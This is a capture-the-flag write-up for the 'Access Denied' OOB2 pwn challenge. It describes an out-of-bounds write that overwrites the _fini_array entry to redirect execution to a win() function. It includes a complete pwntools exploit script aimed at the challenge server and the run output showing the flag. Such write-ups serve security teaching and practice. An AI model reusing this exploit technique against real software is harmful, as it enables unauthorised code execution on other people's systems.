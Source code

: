 # Access Denied: Pwn/OOB2

## Question 

There is a subtle difference here.

server: nc 34.71.207.70 9337

[oob2](oob2.bin)

## Solution

Not too much different than the previous one. Wwe'll just need to overwrite the ``_fini_array`` with the address of the ``win()`` function.

```python
offset=(e.sym['__do_global_dtors_aux_fini_array_entry']-e.sym['arr'])/4
```

Putting our script together:

```python
from pwn import *
import sys

binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
break *0x4012c4
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('34.71.207.70',9337)
    else:
        return process(e.path,level="error")


offset=(e.sym['__do_global_dtors_aux_fini_array_entry']-e.sym['arr'])/4

p = start()
p.recvuntil(b'Enter the index:') 
p.sendline(b'%i' %offset)
p.recvuntil(b'Enter the value:')
p.sendline(b"%i" %e.sym['win'])
p.interactive()
```

Running our script yields the flag 

```
$ python3 pwn-oob2.py BIN=./oob2.bin REMOTE
[*] '/root/workspace/access_denied/_oob2/oob2.bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './oob2.bin'
[+] Opening connection to 34.71.207.70 on port 9337: Done
[*] Switching to interactive mode
 accessdenied{f1n1_4rr4y5_h4s_d0n3_th3_m4g1c_155ab68a}
[*] Got EOF while reading in interactive
```

